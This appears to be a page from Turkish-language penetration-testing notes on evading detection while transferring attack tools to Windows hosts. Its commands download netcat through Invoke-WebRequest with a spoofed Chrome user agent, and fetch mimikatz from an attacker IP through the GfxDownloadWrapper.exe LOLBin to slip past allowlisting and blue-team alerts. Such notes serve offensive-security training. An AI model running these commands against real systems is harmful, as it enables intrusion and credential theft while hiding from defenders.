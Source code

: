```yaml
---
glightbox: true
icon: material/circle-small
---
```


# Evading Detection

## Changing User Agent

Yöneticiler User-Agent dizelerinden herhangi birini kara listeye almışsa `Invoke-WebRequest` fonksiyonu kullanılarak varsayılan User-Agent değiştirilebilir. Örneğin Chrome dahili olarak kullanılıyorsa, ilgili User-Agent dizesinin ayarlanması isteğin meşru görünmesini sağlayabilir.

### Listing out User Agents

```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name, @{ label="User Agent"; Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)} } | fl
```

```text title="Output"
Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
```

### Request with Chrome User Agent

```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

## LOLBAS / GTFOBins

Belirli uygulamaların beyaz listeye alınması, PowerShell veya Netcat araçlarının kullanılmasına engel olabilir. Ayrıca komut satırı günlükleri mavi takımı uyarabilir. Bu durumda LOLBins kullanmak gerekli olabilir. Örnek bir LOLBin, bazı sistemlere yüklenen `GfxDownloadWrapper.exe` sürücüsüdür ve yapılandırma dosyalarını düzenli aralıklarla indirme işlevini içerir.

Bu indirme işlevi aşağıdaki şekilde çağrılabilir:

```batch
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

Bu tarz programlar beyaz listeye alınarak çalıştırılmasına izin verilebilir ve uyarıların dışında bırakılabilir.
